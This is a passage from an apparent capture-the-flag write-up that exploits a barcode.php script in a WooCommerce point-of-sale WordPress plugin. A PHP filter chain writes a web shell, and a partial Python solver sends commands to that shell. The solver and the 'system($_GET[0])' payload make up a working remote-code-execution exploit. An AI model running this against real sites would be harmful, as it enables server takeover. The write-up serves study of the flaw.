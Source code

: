     ```

We can see that it uses a function named `barcode`, which in the end will save the file using the `imagepng` function. The file will be saved to our user-inputted variable named `$filename`. We can inject this `$filename` using a PHP filter chain to control its output. I use these tools to generate the filters:

> [![favicon](./imgs/favicon_f8fO6Cee.svg) **GitHub**](https://github.com/synacktiv/php_filter_chain_generator)\
> Contribute to synacktiv/php\_filter\_chain\_generator development by creating an account on GitHub.\
> <https://github.com/synacktiv/php_filter_chain_generator>

## Solver

solver.py

    ```python
    import httpx
    import asyncio

    URL = "http://52.77.81.199:9108/"
    class BaseAPI:
        def __init__(self, url=URL) -> None:
            self.c = httpx.AsyncClient(base_url=url)

        def qrcode(self, filepath: str = '', text: str = '0', size: str = '20', 
                   orientation: str = 'horizontal', code_type: str = 'code128', 
                   print_option: bool = False, sizefactor: str = '1') -> None:
            return self.c.get("/wp-content/plugins/mwb-point-of-sale-pos-for-woocommerce/package/lib/php-barcode-master/barcode.php", params={
                "filepath": filepath,
                "text": text,
                "size": size,
                "orientation": orientation,
                "codetype": code_type,
                "print": 'true' if print_option else 'false',
                "sizefactor": sizefactor
            })

    class API(BaseAPI):
        def shell(self, cmd):
            return self.c.get("/wp-content/uploads/koko-analytics/sss.php", params={"0": cmd})

    async def main():
        api = API()
        # python3 filter.py --chain "<?php system(\$_GET[0]);?>"